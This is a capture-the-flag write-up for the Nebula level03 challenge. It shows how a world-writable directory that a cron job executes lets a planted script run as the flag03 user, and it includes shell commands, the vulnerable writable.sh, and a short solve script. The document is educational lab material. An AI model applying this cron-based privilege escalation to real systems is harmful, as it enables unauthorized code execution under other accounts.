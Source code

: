 # Challenge
Exploit the crontab running in the home directory of flag03.

Challenge Link: https://exploit.education/nebula/level-03/

# Solution
The problem statement tells us to look in the home directory of flag03 so let's do that first.
```shell
level03@nebula:~$ ls -l /home/flag03/
drwxrwxrwx 2 flag03 flag03  3 2023-08-18 05:24 writable.d
-rwxr-xr-x 1 flag03 flag03 98 2011-11-20 21:22 writable.sh
level03@nebula:~$ ls -l /home/flag03/writable.d
total 0
level03@nebula:~$ cat /home/flag03/writable.sh
#!/bin/sh

for i in /home/flag03/writable.d/* ; do
    (ulimit -t 5; bash -x "$i")
    rm -f "$i"
done
```

We have an empty directory called `writable.d` and a script called `writable.sh`. The script appears to run whatever bash scripts it finds in the `writable.d` directory before removing them. We can guess that the cron job is running this script. In that case, let's write a script for the cron job to run and place it in the `writeable.d` directory.

solve.sh
```shell
#!/bin/bash
getflag > /home/flag03/solved.txt
```

Wait a couple minutes and we can see `solved.txt` in `/home/flag03/`.
```shell
level03@nebula:~$ ls /home/flag03/
solved.txt writable.d writable.sh
level03@nebula:~$ cat /home/flag03/solved.txt
You have successfully executed getflag on a target account
```

Success! We have solved level03.

The cron job ran the `writable.sh` script which ran our script. Our script ran `getflag` and redirected the output to a text file in our home directory (otherwise we wouldn't have been able to see the output).

# Further Reading
For some reading on cron jobs, I like this resource: [Understanding Crontab in Linux with Examples](https://linuxhandbook.com/crontab/)
